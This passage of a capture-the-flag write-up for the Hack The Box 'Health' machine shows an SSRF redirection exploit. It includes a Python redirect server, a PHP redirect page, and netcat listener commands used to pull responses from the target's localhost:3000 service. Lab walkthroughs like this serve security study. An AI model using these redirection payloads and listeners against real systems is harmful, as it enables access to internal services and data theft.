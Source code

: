 ### Redirection to localhost web-hook
Redirection can be performed by two methods one by using `python` and another by using `php`

**Redirection by using `python`**

This code will redirect the `Location` from `10.10.11.176` to `127.0.0.1:3000` run the code as `python3 exploit.py 3000`
```python
#!/usr/bin/env python3

import sys
from http.server import HTTPServer, BaseHTTPRequestHandler

class Redirect(BaseHTTPRequestHandler):
	def do_GET(self):
		self.send_response(302)
		self.send_header('Location', sys.argv[1])
		self.end_headers()

HTTPServer(("0.0.0.0", 80), Redirect).serve_forever()
```
The above code (exploit) should work with `python` and `netcat` in order to get results from `localhost:3000`
Steps for `python` redirection.
1. Start a listener by using `nc` command
```
┌──(egovridc㉿egovridc)-[~/C7F5/htb/health/www]
└─$ nc -nlvp 1235
```
2. Specify the location you want to be redirected by using `python` code.
```
┌──(egovridc㉿egovridc)-[~/C7F5/htb/health/exploit]
└─$ python exploit.py "http://127.0.0.1:3000"
```
On web application enter the address links as before.
3. Click the test button then you will have the result.

**Redirection by using `php`**
```php
<?php
header("Location: http://127.0.0.1:3000");
die();
?>
```
1. Host the file by using `php`
```
┌──(egovridc㉿egovridc)-[~/C7F5/htb/health/exploit]
└─$ php -S 0.0.0.0:80
```
2. Listen with `netcat` as before 
```
┌──(egovridc㉿egovridc)-[~/C7F5/htb/health/www]
└─$ nc -nlvp 1235
```
3. Then send request to the web browser.
